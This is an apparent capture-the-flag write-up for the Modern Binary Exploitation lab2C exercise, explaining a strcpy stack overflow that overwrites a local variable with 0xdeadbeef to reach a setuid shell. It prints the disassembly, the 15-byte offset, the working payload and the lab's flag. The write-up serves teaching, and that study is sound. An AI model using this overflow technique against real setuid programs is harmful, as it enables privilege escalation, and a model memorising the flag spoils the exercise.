




# Modern Binary Exploitation - lab2C
 
| | |
| --- | --- |
| **Lab** | 02 · Memory Corruption |
| **Tier** | C (entry) |
| **Target** | `/levels/lab02/lab2C` |
| **Class** | stack buffer overflow (adjacent-variable overwrite) |
| **Goal** | overwrite a local variable to reach `shell()` and escalate |

## Overview
 
lab02 is the Memory Corruption lab, and this is its entry tier. Where lab01 was solved by reading and reversing the program’s logic, lab2C introduces the first actual bug: an unbounded `strcpy` that overflows a stack buffer. Just past that buffer sits a local variable checked against `0xdeadbeef`, which normal execution never sets. We overflow the buffer to plant that value ourselves and reach the `shell()` function.

## First look
 
Logged in as `lab2C`, read the target's permissions:



As in lab01, the binary is setuid and owned by the next user up, so reaching `shell()` yields a shell as that user.

Check the mitigation posture before planning anything:



The key question is whether a **stack canary** is present. A canary would sit between the buffer and the variable we want to overwrite, so it would have to be accounted for in the offset.

## Disassembling `main`



The relevant block:

```asm
0x080486d6 <+9>:   cmp    DWORD PTR [ebp+0x8],0x2        ; argc == 2 ?
0x080486da <+13>:  je     0x80486f8 <main+43>            ; yes -> continue
0x080486dc <+15>:  mov    eax,DWORD PTR [ebp+0xc]        ; argv            (argc != 2 path)
0x080486df <+18>:  mov    eax,DWORD PTR [eax]            ; argv[0]
0x080486e5 <+24>:  mov    DWORD PTR [esp],0x80487f4       ; usage format string
0x080486ec <+31>:  call   0x8048550 <printf@plt>        ; print usage
0x080486f1 <+36>:  mov    eax,0x1                        ; return 1 and exit
0x080486f6 <+41>:  jmp    0x8048742 <main+117>

0x080486f8 <+43>:  mov    DWORD PTR [esp+0x2c],0x0       ; local var @ esp+0x2c = 0
0x08048700 <+51>:  mov    eax,DWORD PTR [ebp+0xc]        ; argv
0x08048703 <+54>:  add    eax,0x4                         ; &argv[1]
0x08048706 <+57>:  mov    eax,DWORD PTR [eax]            ; argv[1]
0x08048708 <+59>:  mov    DWORD PTR [esp+0x4],eax        ; strcpy src = argv[1]
0x0804870c <+63>:  lea    eax,[esp+0x1d]                 ; strcpy dest = esp+0x1d (buffer)
0x08048710 <+67>:  mov    DWORD PTR [esp],eax
0x08048713 <+70>:  call   0x8048560 <strcpy@plt>         ; strcpy(buf, argv[1])  -- no bound
0x08048718 <+75>:  cmp    DWORD PTR [esp+0x2c],0xdeadbeef ; var == 0xdeadbeef ?
0x08048720 <+83>:  jne    0x8048729 <main+92>            ; no -> print value and exit
0x08048722 <+85>:  call   0x80486ad <shell>             ; yes -> win
```

The program requires exactly one argument (`argc == 2`). Without it, it prints a usage string and exits. With it, it copies `argv[1]` into a buffer at `esp+0x1d` using `strcpy`, then checks the variable at `esp+0x2c` against `0xdeadbeef` and calls `shell()` on a match.

The variable is initialised to `0` and no instruction ever writes `0xdeadbeef` to it, so on a normal run the check can never pass. To reach `shell()` we have to put that value there ourselves. The next step is to find how.

## The bug

The `strcpy` at `+70` is the way in. It copies `argv[1]` into the buffer with no length check, so the number of bytes written is fully attacker-controlled. The variable the program tests sits a short distance above that buffer on the stack, which means a long enough argument runs past the end of the buffer and overwrites it. That turns "we cannot set the variable" into "we can set it to anything we want," including `0xdeadbeef`.

## Offset

Both the buffer and the target variable are addressed directly from `esp`:

```
buffer       = esp + 0x1d
target var   = esp + 0x2c
distance     = 0x2c - 0x1d = 0x0f = 15 bytes
```

So 15 bytes of filler reach the variable, and the next 4 bytes land on it. The value must be written little-endian, so `0xdeadbeef` is the byte sequence `\xef\xbe\xad\xde`. `strcpy` stops at the first NUL, so the 15 filler bytes must contain no `0x00` (plain `A`s work).

Payload:
 
```
"A" * 15 + "\xef\xbe\xad\xde"
```

## Exploitation

The input is a command-line argument, and it contains non-printable bytes, so we build it with Python inline:



Flag: `1m_all_ab0ut_d4t_b33f`
